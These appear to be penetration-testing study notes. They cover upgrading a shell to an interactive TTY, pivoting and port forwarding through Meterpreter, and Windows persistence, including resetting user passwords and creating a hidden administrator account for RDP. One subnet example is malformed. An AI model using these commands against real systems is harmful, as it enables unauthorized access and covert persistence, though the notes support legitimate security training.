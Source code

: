 **Fully interactive shell**

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

## Pivoting & Port forwarding

* Metasploit (in meterpreter)
  * `ipconfig` find subnet (the host may be in other network)
  * `run autoroute -s <subnet>`  (subnet of the internal network). **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    * Example:
      * `ipconfig`  IP 19.9.29.148. Netmask: 255.255.240.0
      * `run autoroute -s 10.10.0.29.0/20`
  * `run autoroute -p` Displays active routing table.
  * auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  * **since target\_sys\_2 does not have a route back to attacker\_sys, use bind\_shell payload** : windows/meterpreter/bind\_tcp
* Port forwarding (meterpreter/metasploit)
  * `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>`  Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  * `portfwd list`
  * `nmap -sV -sC -p 1234 localhost`

## Persistence

### **Windows**

* Metasploit
  * search persistence module (Windows)
  * Ex: exploit/windows/local/persistence\_service
    * It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
    * When you want to connect again you need to set a listener to receive the connection
* Enable RDP
  * with metasploit : search enable\_rdp (and set session)
    * Connect to victim from attacker
      * Note: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      * Note 2: you can create a new account and add it to administrator group...
  * second way with metasploit/meterpreter (auto create account and settings):
    * In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      * enables rdp service -> creates new user with the provided parameters -> hides user from windows login screen -> adds user to Remote Desktop Users and Administrators group.
